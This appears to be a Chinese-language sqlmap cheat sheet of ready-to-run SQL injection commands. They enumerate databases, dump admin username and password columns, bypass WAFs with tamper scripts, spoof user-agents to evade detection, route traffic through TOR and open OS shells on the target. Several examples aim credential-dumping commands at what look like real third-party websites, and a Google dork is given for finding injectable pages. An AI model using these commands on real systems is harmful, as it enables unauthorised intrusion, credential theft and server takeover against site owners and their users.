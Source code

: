 ﻿Sqlmap
======
1. 注入分法不同，种类不同，来个简单的分类：<br/>

        1.get型:        sqlmap -u "http://xxx.xx.xxx/xx.xxx?xx=xxx"
        2.post型:       sqlmap -u "http://xxx.xx.xxx/xx.xxx" --data="xxxx=xxxx&xxxx=xxx"
        3.cookie类注入: sqlmap -u "http://xxx.xx.xxx/xx.xxx?xx=xxx" --cookie="xxx=xxx&xxx=xxx" --level=2

2. 需要数据库
        --dbs
        
3. 得到数据库名称xxx，需要表:
        -D xxx --tables

4. 得到表名xxxx，需要列：
        -D xxx -T xxxx --columns
		
	Note:
           1) 指定列的范围从2－4 : python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --dump -T users -D test --start 2 --stop 4 -v 0
			
5. 得到列名有admin，password，需要值：
        -D xxx -T xxxx -C "admin,password" --dump
		
	Note:
	1) --dump-all 导出所有表，所有数据
				
6. 还需要绕waf
        python sqlmap.py -u "http://192.168.159.1/news.php?id=1" -v 3 --dbs --batch --tamper "space2morehash.py"
        相同的脚本还有：
            § space2morehash.py
            § space2hash.py
            § base64encode.py
            § charencode.py
		
		
7. 注入被识别出来是工具，断开咋办
        a. python sqlmap.py -u "http://192.168.1.121/sqlmap/oracle/get_int.php?id=1" --user-agent "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)" -v 3
        b. python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" -v 1 -a "./txt/user-agents.txt"
        c. python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --referer "http://www.google.com" -v 3

8. 让sqlmap自动跑post注入，填表单
        sqlmap -u "http://www.xxx.com/login.asp" --forms

9. 看看当前用户是不是dba
        --is-dba
        -a
		
	Note:
        1) -a下面的那些命令是用来看用户，看主机，看权限的
        

10. 列举数据库用户
        python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --users -v 0
        
11. 列举数据库用户密码
        python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --passwords -v 0
        python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" --passwords -U sa -v 0
        
12. 查看用户权限
        python sqlmap.py -u "http://192.168.1.121/sqlmap/oracle/get_int.php?id=1" --privileges -v 0
        python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --privileges -U postgres -v 0
        
13. 使用基本认证
        python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/basic/get_int.php?id=1" --auth-type Basic --auth-cred "testuser:testpass" -v 3

14. 使用Digest认证
        python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/digest/get_int.php?id=1" --auth-type Digest --auth-cred "testuser:testpass" -v 3

15. 使用代理,配合TOR
        a. python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --proxy "http://192.168.1.47:3128"
        b. python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --proxy "http://192.168.1.47:8118"
        
16. 使用多线程猜解
        python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" -v 1 --current-user --threads 3

17. 绕过动态检测,直接指定有注入点的参数
        python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -v 1 -p "id"
        python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/ua_str.php" -v 1 -p "user-agent" --user-agent "sqlmap/0.7rc1 (http://sqlmap.sourceforge.net)"

18. 指定数据库,绕过SQLMAP的自动检测
        python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -v 2 --dbms "PostgreSQL"
        * MySQL
        * Oracle
        * PostgreSQL
        * Microsoft SQL Server
        
19. 指定操作系统,绕过SQLMAP自动检测
        python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -v 2 --os "Windows"
        * Linux
        * Windows
        
20. 自定义payload
        Options: --prefix and --postfix
        python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_str_brackets.php?id=1" -v 3 -p "id" --prefix "'" --postfix "AND 'test'='test"

21. --os-xx系列命令，可以执行系统命令，同时还发现了牛逼的xpcmdshell
        ○ sqlmap -u http://192.168.159.1/news.php?id=1 --os-cmd=ipconfig
        ○ sqlmap -u http://192.168.159.1/news.php?id=1 --os-shell
        ○ --file-xx 牛逼的文件操作命令

22. sql query
        a. python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --sql-query "SELECT usename FROM pg_user" -v 0
        b. python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --sql-query "SELECT host, password FROM mysql.user LIMIT 1, 3" -v 1

23. 选择sqlmap默认选项
        --batch 
        
        
24. 不那么常用的
        a. 只列出用户自己新建的数据库和表的内容
                python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" --dump-all --exclude-sysdbs -v 0
        b. 保存和恢复会话
                python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -b -v 1 -s "sqlmap.log"
        c. 保存选项到INC配置文件
                python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -b -v 1 --save
        d. 页面比较
                python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_refresh.php?id=1" --string "luther" -v 1
                python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_refresh.php?id=1" --regexp "<td>lu[\w][\w]er" -v
        e. 排除网站的内容
                python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_refresh.php?id=1" --excl-reg "Dynamic content: ([\d]+)"
        f. 多语句测试，php内嵌函数mysql_query(),不支持多语句
                python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --stacked-test -v 1
        g. union注入测试
                python sqlmap.py -u "http://192.168.1.121/sqlmap/oracle/get_int.php?id=1" --union-test -v 1
        h. unionz注入配合orderby
                python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_str.php?id=1" --union-test --union-tech orderby -v 1
                python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" -v 1 --union-use --banner
                python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" -v 5 --union-use --current-user
                python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_partialunion.php?id=1" -v 1 --union-use --dbs
        i. fingerprint
                python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" -v 1 -f
                python sqlmap.py -u "http://192.168.123.36/sqlmap/get_str.asp?name=luther" -v 1 -f -b
        j. SQLMAP中Google搜索注入
                python sqlmap.py  -g "inurl:php?id="
        k. SQLMAP伪静态注入
                i. 查找数据库
                        python sqlmap.py -u "http://sfl.fzu.edu.cn/index.php/Index/view/id/40.html" --dbs
                ii. 通过1中的数据库查找对应的表 (假如通过1，得到的是dataname)
                        python sqlmap.py -u "http://sfl.fzu.edu.cn/index.php/Index/view/id/40.html" -D dataname --tables
                iii. 通过2中的数据表得到字段(假如得到的是tablename表)
                        python sqlmap.py -u "http://sfl.fzu.edu.cn/index.php/Index/view/id/40.html" -D dataname -T tablename --columns
                iv. 通过3得到字段值(假如从3中得到字段id，password)
                        python sqlmap.py -u "http://sfl.fzu.edu.cn/index.php/Index/view/id/40.html" -D dataname -T tablename -C "password" --dump
                        
        l. SQLMAP用于Access数据库注入
                i. 猜解是否能注入
                        python sqlmap.py -u "http://www.stronkin.com/en/CompHonorBig.asp?id=7"
                ii. 猜解表
                        python sqlmap.py -u "http://www.stronkin.com/en/CompHonorBig.asp?id=7" --tables
                iii. 根据猜解的表进行猜解表的字段(假如通过2得到了admin这个表)
                        python sqlmap.py -u "http://www.stronkin.com/en/CompHonorBig.asp?id=7" --columns -T admin
                iv. 根据字段猜解内容(假如通过3得到字段为username和password)
                        python sqlmap.py -u "http://www.stronkin.com/en/CompHonorBig.asp?id=7" --dump -T admin -C "username,password"
        m. SQLMAP用于Cookie注入
                i. cookie注入，猜解表
                        python sqlmap.py -u "http://www.ntjx.org/jsj/shownews.asp" --cookie "id=31" --table --level 2
                ii. 猜解字段，(通过1的表猜解字段，假如表为admin)
                        python sqlmap.py -u "http://www.ntjx.org/jsj/shownews.asp" --cookie "id=31" --columns -T admin --level 2
                iii. 猜解内容
                        python sqlmap.py -u "http://www.ntjx.org/jsj/shownews.asp" --cookie "id=31" --dump -T admin -C "username,password" --level 2
                        
